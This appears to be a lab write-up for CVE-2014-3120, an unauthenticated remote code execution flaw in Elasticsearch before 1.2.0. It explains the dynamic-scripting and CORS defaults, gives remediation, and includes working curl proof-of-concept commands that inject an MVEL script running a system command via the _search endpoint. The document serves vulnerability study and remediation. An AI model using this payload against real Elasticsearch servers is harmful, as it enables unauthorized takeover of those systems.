



# CVE-2014-3120 CWE-284 ElasticSearch RCE

## Vulnerability Background
**ElasticSearch :** An open-source distributed RESTful search and analysis engine, scalable data storage, and vector database capable of addressing a wide range of emerging use cases. It can store large amounts of data and supports real-time search, multi-tenant, distributed indexing, and storage. Uses document-oriented storage, with data stored in JSON format and flexible fields. It performs excellently in full-text retrieval, quickly handling complex search requests, and is commonly used in scenarios such as log analysis and website searches. It can also facilitate cluster expansion by adding nodes, though it is slightly weaker than traditional databases in terms of transaction processing integrity and data update consistency.

**MVEL (MVFLEX Expression Language)**: A Java-based expression language designed to quickly embed small scripts or expressions in Java applications, commonly used for configuration, rule engines, and template processing. It supports functions such as variable operations, logical operations, process control, and Java class calls, with concise syntax and high execution efficiency.

**CORS (Cross-Origin Resource Sharing) :* a browser security mechanism that allows servers to authorize web pages to request resources from servers different from their own sources (domains, protocols, or ports) by setting specific HTTP headers. This allows them to "bypass" the browser's same-origin policy restrictions under controlled and secure conditions, enabling modern web applications to flexibly perform cross-origin data exchange and resource loading.

## Vulnerability Mechanism
In the affected versions, Elasticsearch's default configuration enables dynamic scripting, and its `_search` endpoints in its REST API (as well as other endpoints that may accept scripts) allow **unauthenticated** attackers to submit and execute malicious MVEL (MVFLEX Expression) using specific parameters (such as `source`). Language) script. Because MVEL could directly execute Java code and lacked effective sandbox isolation in the Elasticsearch implementation at the time, attackers could execute any Java code on the Elasticsearch server and gain full control over the server.

## Vulnerability Location
\src \main \java \org \elasticsearch \http \netty elasticsearch-1.1.1  \NettyHttpChannel .java file, line 75 is used to handle the CORS (Cross-Source Resource Sharing) response header.

The second parameter `true` in line 76 indicates that if the value of `http.cors.enabled` is not explicitly set in the Elasticsearch configuration file (`elasticsearch.yml`), the system will default to `true`, meaning CORS functionality is enabled by default. It allows any website to send cross-origin requests to this Elasticsearch instance through the user's browser. If the Elasticsearch instance is not configured with authentication, malicious websites can read, modify, or even delete data from Elasticsearch, or perform other unauthorized operations.

```java
// 1. First, check whether the request comes from the browser
if (RestUtils.isBrowser(request.headers().get(HttpHeaders.Names.USER_AGENT))) {
    // 2. Then check whether CORS is enabled in the configuration. Note the key here: the default value is true
    if (transport.settings().getAsBoolean("http.cors.enabled", true)) {
        // If CORS is enabled (or not configured, use the default true processing)

        // 3. Add the Access-Control-Allow-Origin header
        // Try to obtain the allowed source from the configuration "http.cors.allow-origin"
        // If not configured, all sources ("*") are allowed by default
        resp.headers().add("Access-Control-Allow-Origin", transport.settings().get("http.cors.allow-origin", "*"));

        // 4. If the request is an OPTIONS method (CORS preflight request)
        if (request.getMethod() == HttpMethod.OPTIONS) {
            // Add extra CORS heads for preflight requests

            // 4a. Access-Control-Max-Age: Cache time for preflight request results
            // Try to get it from "http.cors.max-age", default is 1,728,000 seconds (20 days)
            resp.headers().add("Access-Control-Max-Age", transport.settings().getAsInt("http.cors.max-age", 1728000));

            // 4b. Access-Control-Allow-Methods: Cross-origin request methods allowed by the server
            // Try to get it from "http.cors.allow-methods"; the default is "OPTIONS, HEAD, GET, POST, PUT, DELETE"
            resp.headers().add("Access-Control-Allow-Methods", transport.settings().get("http.cors.allow-methods", "OPTIONS, HEAD, GET, POST, PUT, DELETE"));

            // 4c. Access-Control-Allow-Headers: Cross-origin request headers allowed by the server
            // Try to get it from "http.cors.allow-headers"; by default, "x-requested-with, content-type, content-length"
            resp.headers().add("Access-Control-Allow-Headers", transport.settings().get("http.cors.allow-headers", "X-Requested-With, Content-Type, Content-Length"));
        }
    }
}
```

## Remediation
Set the second parameter of line 76 of the NettyHttpChannel.java file to false, so that CORS is disabled by default in the system.

However, even with CORS disabled, you can still perform arbitrary operations on local Elasticsearch instances. The dynamic scripting feature was removed in version 1.2, and a sandbox for scripts was created in version 1.3.

## Affected Versions
ElasticSearch  < 1.2.0

## Environment Setup
Start the Docker environment; ElasticSearch version is 1.1.1



## Vulnerability Reproduction
1. **Data must be stored in the database. **Using `curl` to send an HTTP request to a locally running Elasticsearch instance with an Index Document:

   - Index name: `testindex`  
   - The document's ID (if present, will be overwritten; If not available, create one): 1
   - Inserted content: The value of the `message` field is `"hello"` 

   ```bash
   curl -X POST http://127.0.0.1:9200/testindex/1/ -H "Content-Type: application/json" -d '{"message": "hello"}' 
   ```

2. Use `curl` to send a request to the local Elasticsearch `_search` interface:

   - `?pretty` means the returned result is formatted.
   - `script_fields`: This is a feature provided by Elasticsearch that can execute scripts and return the return value as the field result.
   - `command`: This field name can be defined arbitrarily.
   - `script`: This is the actual script being executed, executing the command ID.

   ```bash
   curl 127.0.0.1:9200/_search?pretty -H "Content-Type: application/json" -d '{"script_fields":{"command":{"script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"}}}'
   ```

   After execution, you can see the returned ID information.

   

## PoC Analysis
There is at least one data set before executing the command, so you need to create a data set first.

```bash
curl 127.0.0.1:9200/_search?pretty -H "Content-Type: application/json" -d '{"script_fields":{"command":{"script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"}}}'
```

Use `curl` to send a request to the local ElasticSearch `_search` interface:

- `?pretty` means the returned result is formatted.
- `script_fields`: This is a feature provided by Elasticsearch that can execute scripts and return the return value as the field result.
- `command`: This field name can be defined arbitrarily.
- `script`: Here is the actual script executed:
  - `import java.io.*;`: Imports Java I/O packages to use the `InputStream` class and `Runtime` related methods.
  - `Runtime.getRuntime().exec("id")`: Use Java's `Runtime` class to execute system commands `id`.
  - `.getInputStream()`: Retrieves the standard output of the command execution.
  - `new java.util.Scanner(...).useDelimiter("\\A").next();`: Use `Scanner` to read the entire output as a string. `useDelimiter("\\A")`: Set the separator as the start of the input stream so you can read the entire content at once. `next()`: Returns the result string.

## Exploit Analysis
Enter the ElasticSearch IP and port, then enter the initial inserted data (mainly for Docker environments where no data is stored): index name, document ID, and inserted content (fields and values). After that, you can execute any command.



## References
[Elasticsearch Improper Access Control vulnerability · CVE-2014-3120 · GitHub Advisory Database](https://github.com/advisories/GHSA-mrfm-jxgf-2h6v)

[NVD - CVE-2014-3120](https://nvd.nist.gov/vuln/detail/CVE-2014-3120)

[Change default for script.disable_dynamic · Issue #5853 · elastic/elasticsearch](https://github.com/elastic/elasticsearch/issues/5853)

[CORS: Disable by default · elastic/elasticsearch@f9de8b6](https://github.com/elastic/elasticsearch/commit/f9de8b65898509e038e33215db0720b508477a12)

[Disable CORS by default · Question #7151 · elastic/elasticsearch --- Disable CORS by default · Issue #7151 · elastic/elasticsearch](https://github.com/elastic/elasticsearch/issues/7151)

[Insecure default setting in Elasticsearch enables remote code execution --- Insecure default in Elasticsearch enables remote code execution](https://bou.ke/blog/elasticsearch-rce/)
